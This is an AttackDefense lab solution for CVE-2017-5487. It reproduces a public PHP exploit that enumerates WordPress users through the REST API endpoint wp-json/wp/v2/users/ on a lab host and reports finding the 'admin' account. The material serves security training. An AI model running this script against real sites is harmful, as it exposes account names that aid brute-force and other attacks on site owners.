








![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">CVE-2017-5487 </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=358> </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Webapp CVEs : 2017 </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Solution:**  

The web application is vulnerable to CVE-2017-5487 

**Step 1:** Inspect the web application. ![ref2]

**Step 2:** Search on google “CVE-2017-5487”. 

The exploit db link contains the payload required to exploit the vulnerability. ![ref2]**Exploit DB Link: <https://www.exploit-db.com/exploits/41497>** 

**Step 3:** Modify the URL in the php script and save it as “exploit.php” 

#!usr/bin/php <?php 

#Author: Mateus a.k.a Dctor 

#fb: fb.com/hatbashbr/ 

#E-mail: dctoralves@protonmail.ch 

#Site: https://mateuslino.tk  

header ('Content-type: text/html; charset=UTF-8'); 

$url= "http://v5o0wdeg0o07scs2q4qt6iwvz.mumbaix.attackdefenselabs.com/"; ![ref2]

$payload="wp-json/wp/v2/users/"; ![ref1]

$urli = file\_get\_contents($url.$payload); 

$json = json\_decode($urli, true); 

if($json){ 

echo "\*-----------------------------\*\n"; foreach($json as $users){ 

echo "[\*] ID :  |" .$users['id']     ."|\n"; echo "[\*] Name: |" .$users['name']   ."|\n"; echo "[\*] User :|" .$users['slug']   ."|\n"; echo "\n"; 

}echo "\*-----------------------------\*";}  

else{echo "[\*] No user";} 

?> 

**Step 4:** Run the php script with the following command. ![ref2]

![ref1]

**Command:** php exploit.php 

There exists a user with name “admin” and ID 1. **References:**  

1. Wordpress (<http://wordpress.org/>)  ![ref2]
1. CVE-2017-5487 (<https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5487>)  
1. WordPress < 4.7.1 - Username Enumeration (<https://www.exploit-db.com/exploits/41497>)  

[ref1]: Aspose.Words.a7b2bb76-35e9-4a17-b2b3-64525df6c9d9.002.png
[ref2]: Aspose.Words.a7b2bb76-35e9-4a17-b2b3-64525df6c9d9.004.png
